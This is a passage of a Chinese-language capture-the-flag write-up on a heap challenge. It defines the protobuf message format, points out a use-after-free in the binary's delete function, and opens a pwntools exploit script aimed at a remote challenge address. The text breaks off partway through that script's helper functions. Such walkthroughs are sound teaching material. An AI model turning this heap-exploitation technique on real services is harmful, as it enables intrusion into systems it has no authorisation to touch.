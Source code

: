 #### 堆题攻击手法分析
###### 生成protobuf的python实现
我们先根据前面分析出来的message.proto数据先生成数据实现的python脚本(response没用所以我就没写进去了)

```protobuf
syntax = "proto2";

message Message_request{
    required int32 id = 1;
    required string sender = 2;
    required uint32 len = 3;
    required bytes content = 4;
    required int32 actionid = 5;
}
protoc --python_out=. message.proto
```

因为我还生成了C的文件，所以我这里生成的文件名字是message_pb2.py。在exp里面把这个文件import进去就行。具体用法看下面写的前置脚本。

###### 简单的函数分析
invalid函数和success函数就是对操作进行回应而已，没什么好关注的。别忘了让sender写成admin。repeater函数就是拿来玩的。

add函数传入的id不能超过15，也就是最多16个chunk，会检查是否已使用。在主函数中对len进行了检查不能超过0x550。

delete函数检查id使用情况，但是free之后没置零对应id的指针，有UAF漏洞。

show没什么限制。

edit也没什么限制，但是并不能修改size。

####### 前置脚本

我们先写出前置脚本：

```python
from pwn import *
import message_pb2 as pb
# r = process('./bot')
r = remote("43.248.97.213", 30202)
e = ELF('./bot')
libc = ELF('./libc.so.6')
context.log_level = 'debug'


def repeater(idx, len, content):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = 'admin'
    msg.len = len
    msg.content = content
    msg.actionid = 0
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())


def add(idx, len, content=b'c_lby'):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = b'admin'
    msg.len = len
    msg.content = content
    msg.actionid = 1
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())


def delete(idx):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = b'admin'
```